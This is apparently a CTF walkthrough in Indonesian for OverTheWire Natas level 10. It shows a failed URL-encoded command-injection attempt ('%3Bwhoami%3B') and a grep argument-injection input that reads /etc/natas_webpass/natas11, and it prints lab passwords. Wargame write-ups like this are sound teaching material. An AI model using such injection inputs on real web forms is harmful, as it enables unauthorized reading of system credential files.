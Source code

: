 ```yaml
---
layout: level
level: 10
previous: ./level 09.html
next: ./level 11.html
---
```


# soal
Username: natas10
URL:      http://natas10.natas.labs.overthewire.org

# solve
- use cred natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
- setelah saya login terdapat sebuah form input seperti sesbelumnya hanya saja sepertinya terdapat keamanan yang lebih baik
  ![alt text](docs/images/image-17.png)
  - terdapat pengecualian pada teks seperti "/[;|&]/"
  - disini saya mencoba untuk melakukan bypass sperti menggunakan url encode namun masih belum berhasil
  ```
  %3Bwhoami%3B
  ```
  - https://github.com/payloadbox/command-injection-payload-list
  - https://owasp.org/www-community/attacks/Command_Injection
  - https://book.hacktricks.xyz/pentesting-web/command-injection
- lalu saya terpikir sesuatu untuk mencoba grep file /etc/natas_pass saja
  ![alt text](docs/images/image-18.png)
  ```
  a /etc/natas_webpass/natas11
  ```
- dan akhirnya saya berhaasil mendapatkan flagnya
  ```
  /etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
  ```

# flag
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk